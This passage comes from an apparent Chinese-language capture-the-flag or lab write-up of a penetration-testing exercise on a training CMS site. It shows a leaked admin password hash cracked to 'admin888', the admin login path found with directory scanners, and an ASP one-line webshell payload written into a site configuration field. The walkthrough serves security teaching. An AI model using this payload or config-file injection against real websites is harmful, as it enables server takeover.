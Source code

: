 ## 敏感信息泄露

在本节末尾留个小彩蛋，细心的读者可能在上述注入点的页面底部发现了：

![leak](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/leak.png)

对的，你想的没错，管理员的 16 位密码哈希值，用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密后的明文结果正是 `admin888`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/password.png)

# 0x03 获取后台登录地址

根据实验手册的提示，在实验工具箱的【目录扫描】->【御剑后台扫描工具】文件夹下打开工具，在 **域名** 处填上主站 URL `http://www.test.ichunqiu/`，点击 **开始扫描** 即可轻松获取后台登录地址 `/admin/login.asp`：

![yujian_scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/yujian_scan.png)

上节提到的明小子（Domain）注入工具也带有目录扫描功能，点击 **SQL注入 -> 管理入口扫描** 选项卡，在 **注入点** 处填上主站 URL，点击 **扫描后台地址** 同样能得到后台登录地址：

![domain_scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/domain_scan.png)

> 小贴士：通过这几次渗透实验可发现，大多 CMS 的默认后台登录地址为 `/admin`，因此在使用目录扫描工具前可先行尝试。

# 0x04 配置文件写入木马获取 webshell

第 2 题过后，随之而来的第 3 题又是一道选择题：「通过什么方式获得 webshell？」，这也同时是对接下来渗透的提示。

先用管理员账号 `admin` 与密码 `admin888` 登录后台：

![login_back](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/login_back.png)

根据题目的提示，寻找后台备份文件、文件上传处、内容填写框等能够插入木马的漏洞，但可惜的是，很快能发现**备份文件无效、文件上传无反应、大多文本框不能填写**，看来服务器限制了该账户的写入权限。

只剩下**写入配置文件**了，并在 **系统设置管理 -> 网站信息配置** 发现了配置文件更改处。问题又来了，写入木马的配置文件在哪读取？于是先在外网搜索到 CMS 的源码，在此目录中搜索 `conf` 等关键字，发现了 4 个目标文件：

![search_config](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/search_config.png)

经过逐一排查，最终确定其中的 `/inc/Config.asp` 与网站配置信息相关：

![inc_config](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/inc_config.png)

接下来尝试在任意一栏中写入 ASP 版的一句话木马 `"%><%Eval Request("cmd")%><%'`。**注意：`"%>` 是为了闭合前段 ASP 代码；`cmd` 是木马的请求参数；`<%'` 是为了开启后段 ASP 代码，并用单引号注释该行剩下的代码。**写入木马前，最好把栏中原有的配置信息删除，即可直观地判断是否写入成功。

以 **网站标题** 一栏为例，写入一句话木马：

![trojan_writing](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/trojan_writing.png)

写入后点击 **保存设置**，可见写入木马后该栏为空：

![trojan_written](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%88%91%E5%BE%88%E7%AE%80%E5%8D%95_%E8%AF%B7%E4%B8%8D%E8%A6%81%E6%AC%BA%E8%B4%9F%E6%88%91/trojan_written.png)
